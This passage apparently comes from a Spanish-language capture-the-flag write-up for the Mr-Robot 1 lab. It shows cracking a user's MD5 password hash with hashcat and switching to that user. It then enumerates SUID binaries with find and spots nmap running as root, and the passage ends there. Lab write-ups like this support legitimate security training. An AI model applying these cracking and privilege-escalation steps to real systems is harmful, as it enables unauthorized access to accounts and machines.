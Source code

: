     ```bash
    robot:c3fcd3d76192e4007dfb496cca67e13b
    ```
    
- Tiene toda la pinta que el archivo password.raw-md5 nos va a permitir cambiar al otro usuario del sistema, **robot**.
- Vamos a utilizar hashcat para crackear dicho archivo y probar a sacar información de el

```bash
hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b  /usr/share/wordlists/rockyou.txt
```

- Tras un rato nos saca:

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

Accedemos al usuario robot con la contraseña crackeada anteriormente.

```bash
su robot
```

Con esto ya podemos acceder al contenido de key-2-of-3.txt ( segunda key )

![Untitled](Mr-Robot%201%20d399b/Untitled%2013.png)

# → Root:

- Nos quedaría por ultimo elevar privilegios.
- Tras una batería de pruebas, a la hora de buscar ficheros con permisos de **SUID** nos topamos con esto:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2014.png)

- Podemos mejorar este comando con:

```bash
find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null
```

- Con este podremos ver tanto los permisos como el usuario de los mismos

![Untitled](Mr-Robot%201%20d399b/Untitled%2015.png)

- Vemos que tenemos el binario de nmap que se ejecuta como **root**, lo cual es bastante raro en este tipo de CTFS.
- Comprobamos la versión del mismo:

```bash
nmap --version
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2016.png)
